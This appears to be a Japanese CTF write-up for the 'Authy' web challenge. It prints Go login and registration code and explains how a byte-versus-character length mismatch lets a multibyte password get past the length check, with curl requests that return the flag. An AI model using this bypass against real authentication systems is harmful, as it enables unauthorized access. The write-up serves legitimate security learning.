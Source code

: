 # Authy:WEB:50pts
I have just learned Golang and trying to build a small authentication platform with it. It's a simple API so it should be secure right ?  

[http://a769a62b4442de42d315a.playat.flagyard.com](http://a769a62b4442de42d315a.playat.flagyard.com)  

[challenge-files-e8024110-c9af-462a-810d-736112066f55.zip](challenge-files-e8024110-c9af-462a-810d-736112066f55.zip)  

# Solution
URLとzipが渡される。  
zipのパスワードは`flagyard`のようで、展開するとソースコードが入っている。  
server.goは以下のようであった。  
```go
~~~
func main() {
	e := echo.New()

	// e.Use(middleware.Logger())
	e.Use(middleware.Recover())

	e.Use(middleware.CORSWithConfig(middleware.CORSConfig{
		AllowOrigins: []string{"*"},
		AllowMethods: []string{echo.GET, echo.POST},
	}))

	e.POST("/login", controllers.LoginController)
	e.POST("/registration", controllers.Registration)
	s := &http.Server{
		Addr:         ":1323",
		ReadTimeout:  20 * time.Minute,
		WriteTimeout: 20 * time.Minute,
	}
	e.Logger.Fatal(e.StartServer(s))
}
```
`/login`と`/registration`があり、controllerに実装があるようだ。  
controller/LoginController.goは以下のようであった。  
```go
~~~
func Registration(c echo.Context) error {
	var user models.Users
	body, _ := io.ReadAll(c.Request().Body)
	err := json.Unmarshal(body, &user)
	if err != nil {
		return err
	}
	if len(user.Password) < 6 {
		log.Error("Password too short")
		resp := c.JSON(http.StatusConflict, helper.ErrorLog(http.StatusConflict, "Password too short", "EXT_REF"))
		return resp
	}
	DB := db.DB()
	var count int
	sqlStatement := `Select count(username) from users where username=?`
	err = DB.QueryRow(sqlStatement, user.Username).Scan(&count)
	if err != nil {
		log.Error(err.Error())
	}
	if count > 0 {
		log.Error("username already used")
		resp := c.JSON(http.StatusConflict, helper.ErrorLog(http.StatusConflict, "username already used", "EXT_REF"))
		return resp
	}
	//hashing password (even it's a CTF, stick to the good habits)
	hash, err := bcrypt.GenerateFromPassword([]byte(user.Password), 5)
	if err != nil {
		resp := c.JSON(http.StatusInternalServerError, helper.ErrorLog(http.StatusInternalServerError, " Error While Hashing Password", "EXT_REF"))
		return resp
	}
	user.Password = string(hash)
	user.DateCreated = helper.DateTime()
	user.Token = helper.JwtGenerator(user.Username, user.Firstname, user.Lastname, os.Getenv("SECRET"))
	stmt, err := DB.Prepare("Insert into users (username,firstname,lastname,password,token,datecreated) VALUES (?,?,?,?,?,?)")
	if err != nil {
		resp := c.JSON(http.StatusInternalServerError, helper.ErrorLog(http.StatusInternalServerError, "Error when prepare statement : "+err.Error(), "EXT_REF"))
		return resp
	}
	_, err = stmt.Exec(user.Username, user.Firstname, user.Lastname, user.Password, user.Token, user.DateCreated)
	if err != nil {
		log.Error(err)
		resp := c.JSON(http.StatusInternalServerError, helper.ErrorLog(http.StatusInternalServerError, "Error when execute statement : "+err.Error(), "EXT_REF"))
		return resp
	}
	resp := c.JSON(http.StatusOK, user)
	log.Info()
	return resp
}

type Flag struct {
	Flag string `json:"flag"`
}

func LoginController(c echo.Context) error {
	var user models.Users
	payload, _ := io.ReadAll(c.Request().Body)
	err := json.Unmarshal(payload, &user)

	if err != nil {
		log.Error(err)
		return err
	}
	var result models.Users
	DB := db.DB()
	sqlStatement := "select * from users where username=?"

	err = DB.QueryRow(sqlStatement, user.Username).Scan(&result.Username, &result.Firstname, &result.Lastname, &result.Password, &result.Token, &result.DateCreated)
	if err != nil {
		log.Error(err)
		resp := c.JSON(http.StatusInternalServerError, helper.ErrorLog(http.StatusInternalServerError, "Invalid Username", "EXT_REF"))
		return resp
	}

	err = bcrypt.CompareHashAndPassword([]byte(result.Password), []byte(user.Password))
	if err != nil {
		log.Error("Invalid Password :", err)
		resp := c.JSON(http.StatusInternalServerError, helper.ErrorLog(http.StatusInternalServerError, "Invalid Password", "EXT_REF"))
		return resp
	}
	password := []rune(user.Password)
	result.Token = helper.JwtGenerator(result.Username, result.Firstname, result.Lastname, os.Getenv("SECRET"))
	if len(password) < 6 {
		flag := os.Getenv("FLAG")
		res := &Flag{
			Flag: flag,
		}
		resp := c.JSON(http.StatusOK, res)
		log.Info()
		return resp
	}
	resp := c.JSON(http.StatusOK, result)
	log.Info()
	return resp
}
```
ユーザ登録時のパスワードは6文字以上である必要があるが、6文字以下のパスワードでログインした場合のみフラグが表示される。  
一見すると矛盾しているが、`LoginController`で`password := []rune(user.Password)`していることがわかる。  
`Registration`の`len`ではバイト数が返るのに対し、こちらでは文字数が返される。  
つまり、6バイト以上で6文字以下になるものをパスワードとすればよい。  
日本人なので以下のように行う。  
```bash
$ curl -X POST http://a769a62b4442de42d315a.playat.flagyard.com/registration -d '{"username": "Satoki", "password": "さとき"}'
{"username":"Satoki","password":"$2a$05$3slgG76z4eo1tMBp5sunkuqW5rpAgYkj6RfXnsMMjilEdi.glJyHa","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmaXJzdG5hbWUiOiIiLCJsYXN0bmFtZSI6IiIsInVzZXJuYW1lIjoiU2F0b2tpIn0.6C9uCVRQzP833N4uXdwGTBPVmCmUeDW-hODKgEV_FdQ","date_created":"2023-10-09 09:32:58"}
$ curl -X POST http://a769a62b4442de42d315a.playat.flagyard.com/login -d '{"username": "Satoki", "password": "さとき"}'
{"flag":"BHFlagY{43ef8a7241d47ce611eb5d42f1672b6b}"}
```
flagが得られた。  

## BHFlagY{43ef8a7241d47ce611eb5d42f1672b6b}